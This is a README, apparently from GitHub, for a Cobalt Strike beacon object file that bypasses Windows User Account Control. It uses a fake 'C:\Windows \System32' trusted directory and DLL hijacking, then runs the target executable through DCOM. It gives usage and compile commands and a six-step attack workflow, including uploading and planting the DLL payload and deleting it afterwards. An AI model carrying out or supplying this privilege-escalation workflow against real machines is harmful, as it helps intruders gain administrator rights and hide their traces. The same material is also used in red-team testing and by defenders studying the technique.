 # BOF - Trusted Path UAC Bypass
Beacon object file implementation for trusted path UAC bypass. The target executable will be called without involving "cmd.exe" by using DCOM object.

Technical details:

https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

**Usage**

`Example: bof-trustedpath-uacbypass ComputerDefaults.exe /root/edputil.dll`

**Compile**

`make`

**Execution**
```
beacon> help bof-trustedpath-uacbypass
====================Trusted Path UAC Bypass BOF Workflow=======================
Step 1: Upload the DLL payload to "C:\Windows\Tasks"
Step 2: Create a new folder called "C:\Windows \System32"
Step 3: Copy desired executable to "C:\Windows \System32"
Step 4: Copy the DLL payload to "C:\Windows \System32"
Step 5: Use DCOM to execute "C:\Windows \System32\<desired executable>"
Step 6: Delete the DLL payload on "C:\Windows\Tasks"
================================================================================

Example: bof-trustedpath-uacbypass ComputerDefaults.exe /root/edputil.dll
```

![HowTo](https://github.com/netero1010/TrustedPath-UACBypass-BOF/raw/main/execution.png)

**Credit**
@David Wells and @Wietze for excellent research  
https://medium.com/tenable-techblog/uac-bypass-by-mocking-trusted-directories-24a96675f6e
https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

@Yas_o_h for the awesome DCOM BOF implementation  
https://github.com/Yaxser/CobaltStrike-BOF/tree/master/DCOM%20Lateral%20Movement
